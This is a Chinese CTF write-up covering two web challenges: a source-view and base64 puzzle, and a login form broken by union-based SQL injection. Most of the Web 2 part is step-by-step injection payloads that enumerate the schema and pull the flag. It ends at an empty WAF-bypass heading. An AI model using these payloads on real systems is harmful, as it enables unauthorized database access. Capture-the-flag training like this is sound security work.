






# Web 1


Ctrl+U 查看源代码

base64解码

# Web 2

## 考查点：

- 基本的SQL注入
- 多表联合查询

在用户名处注入sql语句，密码随意

## 1.查当前数据库名称

```
 ' or 1=1 union select 1,database(),3 limit 1,2;#-- 
```

_得到数据库名称web2_

## 2.查看数据库表的数量

```
' or 1=1 union select 1,(select count(*) from information_schema.tables where table_schema = 'web2'),3 limit 1,2;#-- 
```

_得到数据库表数量为2_

## 3.查表的名字

**第一个表:**

```
' or 1=1 union select 1,(select table_name from information_schema.tables where table_schema = 'web2' limit 0,1),3 limit 1,2;#-- 
```

_得到表名：flag_ **第二个表:**

```
' or 1=1 union select 1,(select table_name from information_schema.tables where table_schema = 'web2' limit 1,2),3 limit 1,2;#-- 
```

_得到表名：user_

## 4.查flag表列的数量

```
' or 1=1 union select 1,(select count(*) from information_schema.columns where table_name = 'flag' limit 0,1),3 limit 1,2;#-- 
```

_只有1列_

## 5.查flag表列的名字

```
' or 1=1 union select 1,(select column_name from information_schema.columns where table_name = 'flag' limit 0,1),3 limit 1,2;#-- 
```

_列名为flag_

## 6.查flag表记录的数量

```
' or 1=1 union select 1,(select count(*) from flag),3 limit 1,2;#-- 
```

_只有一条记录_

## 7.查flag表记录值

```
' or 1=1 union select 1,(select flag from flag limit 0,1),3 limit 1,2;#-- 
```

_得到flag_


# WAF绕过
想到用焚靖工具：


